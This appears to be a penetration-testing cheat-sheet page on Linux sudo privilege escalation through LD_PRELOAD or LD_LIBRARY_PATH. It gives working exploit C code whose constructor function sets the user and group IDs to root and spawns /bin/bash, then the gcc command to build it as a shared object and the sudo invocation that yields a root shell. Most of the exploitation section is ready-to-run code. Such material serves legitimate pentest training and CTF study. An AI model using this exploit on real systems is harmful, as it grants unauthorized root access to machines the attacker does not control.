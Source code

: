 ```yaml
---
title: Sudo Privilege Escalation by Overriding Shared Library
description: LD_PRELOAD and LD_LIBRARY_PATH might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-10-26
draft: false
---
```


## LD_PRELOAD, LD_LIBRARY_PATH Overwriting

### Investigation

Check sudo commands.

```sh
sudo -l
```

The below is the output example.

```bash
env_keep+=LD_PRELOAD

(ALL : ALL) NOPASSWD: somecmd
```

If we find the sudo command keeps **LD_PRELOAD** environment, we can overwrite this variable to load our custome shared object and escalate the privileges.  

Also, we can replace the **LD_PRELOAD** with **LD_LIBRARY_PATH**.

By the way, to list shared libraries required by the executable, use `ldd` command.

```sh
ldd somecmd
```

### Exploitation

First off, create **exploit.c** under **/tmp** .

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void inject()__attribute__((constructor));

void inject() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

- The **"constructor"** attribute is a special type of function attribute in GCC. It tells the compiler to automatically call the function before the main function.

Now compile the c program to shared object.

```bash
# -fPIC: Generate Position Independent Code.
# -shared: Generate a shared library.
# -o: Output shared object.
gcc  -fPIC -shared -o exploit.so exploit.c
```

We can execute command with setting the shared library to **LD_PRELOAD** variable then spawn the root shell.

```bash
sudo LD_PRELOAD=/tmp/exploit.so somecmd
```

